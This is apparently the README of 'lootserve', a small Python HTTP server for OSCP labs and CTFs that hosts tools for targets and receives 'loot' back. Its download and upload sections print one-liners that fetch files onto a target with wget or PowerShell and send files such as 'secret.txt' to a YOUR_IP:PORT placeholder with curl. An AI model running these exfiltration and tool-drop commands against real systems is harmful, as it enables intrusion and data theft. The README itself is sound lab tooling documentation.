


# lootserve – a tiny HTTP server for OSCP and CTFs

## Overview

* **Purpose-built for OSCP/CTFs**: quick file hosting that prints copy-paste URLs and ready-made download one-liners for Linux and Windows.
* **Optional uploads**: receive files from target hosts via PUT or POST (`multipart/form-data` or raw body).
* **Single file, zero external deps**: pure Python 3 stdlib, with colored, concise CLI output.
* **Optimized for speed during exams/labs**: stop retyping curl/wget/PowerShell every box; copy the generated commands and focus on exploitation.

## Author

* Built by **rzz0** — [https://github.com/rzz0](https://github.com/rzz0)

## Quick Start

Serve the current directory (auto-selects a free port among `80, 8000, 8080, 8888, 8181`, then falls back to a random free port):

```bash
python3 lootserve.py
```

Pin a specific port (e.g. `80`):

```bash
python3 lootserve.py -p 80
```

Enable uploads to a dedicated folder with a size cap:

```bash
python3 lootserve.py --upload --upload-dir ./uploads --max-upload-mb 50
```

## Optional install (Kali/Parrot/etc.)

If you want to call `lootserve` from anywhere:

```bash
git clone https://github.com/rzz0/lootserve.git
cd lootserve
chmod +x install.sh
sudo ./install.sh
```

## Images

```bash
lootserve -p 8888 --client linux -v
```



```bash
lootserve -p 8888 --client windows -r -v
```


## Downloads (from your server to the target)

The server prints per-file one-liners you can paste directly into the target shell.

Typical usage:

* Linux:

  ```bash
  wget -O file.bin http://YOUR_IP:PORT/file.bin
  ```

* Windows (PowerShell):

  ```powershell
  powershell -Command "iwr -UseBasicParsing 'http://YOUR_IP:PORT/file.bin' -OutFile 'file.bin'"
  ```

You can restrict the printed commands to a specific OS using `--client linux` or `--client windows`, or use the default dual-OS compact listing.

## Images of lootserve

## Uploads (from the target back to you)

Enable uploads with `--upload`.
By default, files are saved under the served directory, or under `--upload-dir` if provided.

**PUT to a chosen path:**

```bash
curl -T secret.txt http://YOUR_IP:PORT/loot/secret.txt
```

**POST multipart to `/upload`**
(there is also a simple HTML form at `GET /upload`):

```bash
curl -F file=@secret.txt http://YOUR_IP:PORT/upload
```

**POST raw body with filename via header or query:**

```bash
curl --data-binary @secret.txt \
     -H 'X-Filename: secret.txt' \
     http://YOUR_IP:PORT/raw
```

> Any path other than `/upload` will be treated as a “raw” upload endpoint when `--upload` is enabled (e.g. `/raw`, `/loot`, etc.), as long as `X-Filename` or `?filename=` is set.

## CLI Options (most useful)

* `-p, --port`
  Optional port. If omitted, tries `80, 8000, 8080, 8888, 8181`, then a random free port.
* `-H, --host`
  Bind address (default: `0.0.0.0`).
* `-d, --dir`
  Directory to serve (default: current directory).
* `-r, --recursive`
  Include subdirectories in the printed file listing.
* `--iface`
  Network interface used to derive the display IP for printed URLs (default: `tun0`).
* `-v, --verbose`
  Print access logs to stdout.
* `--logfile FILE`
  Append access logs to `FILE`.
* `--client {linux,windows}`
  Show one-liners only for the chosen OS.
* `--full`
  Show detailed blocks (all download methods), not only compact one-liners.
* `--upload`
  Enable uploads via PUT/POST.
* `--upload-dir DIR`
  Destination directory for uploads (default: the served directory).
* `--max-upload-mb N`
  Optional upload size limit in megabytes (requests above this return HTTP 413).

## Security Notes

* **Path traversal protection**: uploads are constrained to the base directory (or `--upload-dir`) using a safe path join.
* **Size limits**: when `--max-upload-mb` is set, bodies larger than the limit are rejected with HTTP `413 Payload Too Large`.
* **No authentication**: this is a lab/CTF utility. Only bind/listen on networks you control and trust. Do **not** expose it to the internet without additional protections.

## Troubleshooting

* **Permission denied on port 80**
  Use a higher port (e.g. `-p 8000`) or run with appropriate privileges. If you omit `-p`, lootserve will automatically pick a usable port.
* **Port already in use**
  lootserve will try the preferred ports in order and print notices. Check the printed “Server” section to see which port was selected.
* **IP/interface mismatch**
  If `tun0` does not exist or is not the right interface, pass:

  ```bash
  python3 lootserve.py --iface eth0
  ```

  or override the displayed IP directly with:

  ```bash
  python3 lootserve.py -H 192.168.0.123
  ```

## Why this project?

lootserve was built to speed up OSCP labs and CTF workflows:

* Less time typing wget/curl/PowerShell every box.
* Fewer copy-paste mistakes.
* Easy way to **both** drop tools **and** pull loot from targets, using simple HTTP.

## Requirements

* Python **3.8+**
* No external dependencies (stdlib only).

## License

* See `LICENSE` in this repository for licensing details.
